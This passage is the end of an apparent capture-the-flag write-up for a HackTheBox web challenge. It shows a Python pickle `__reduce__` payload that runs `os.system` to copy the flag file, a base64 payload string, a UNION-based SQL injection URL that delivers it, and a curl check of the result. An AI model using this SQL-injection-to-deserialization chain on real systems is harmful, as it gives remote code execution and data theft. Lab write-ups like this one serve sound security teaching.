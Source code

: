 ```python
    print(base64.urlsafe_b64encode(pickled))

```

We have created a `RCE` class having defined a `__reduce__()` method that returns the function `os.system` and a tuple having a `bash` command as a value. Then we serialize and base64 the output.

When the output is deserialized, the `/app/flag.txt` is copied to `/app/application/static/flag.txt` which is the static directory of `Flask` and is publicly accessible. 

The reason I `cp`'ed it and not `cat`'ed because it is a blind injection and we can not see the output of `cat`.

```bash

┌──(n3hal㉿Universe7)-[~/…/challenges/web/c.o.p/exploit]
└─$ python exploit.py 
b'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvYXBwL2ZsYWcudHh0IC9hcHAvYXBwbGljYXRpb24vc3RhdGljL2ZsYWcudHh0lIWUUpQu'

```

We have crafted the deserialization payload.

# CRAFTING SQL INJECTION PAYLOAD

The injection point is the `product_id` in the `/view/<product_id>` route.

If the id of the product is `1`, the full URL will be `http://[IP]:[PORT]/view/1`.

We want to use `UNION` to inject the deserialized payload. The final payload will be:


```bash

http://[IP]:[PORT]/view/1' UNION SELECT 'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvYXBwL2ZsYWcudHh0IC9hcHAvYXBwbGljYXRpb24vc3RhdGljL2ZsYWcudHh0lIWUUpQu';--

```

After we make the HTTP request to the payload URL, we just need to check for `flag.txt` in `/static` route.

```bash

┌──(n3hal㉿Universe7)-[~/…/challenges/web/c.o.p/exploit]
└─$ curl 'http://172.17.0.2:1337/static/flag.txt'                                                                                                                                     
HTB{f4k3_fl4gs_f0r_t3st1ng}

```

We can see that our payload worked. Try the same thing on the running instance to get the real flag.

This is all I have in this challenge. 

Thanks for reading this far :) Hope you liked it.
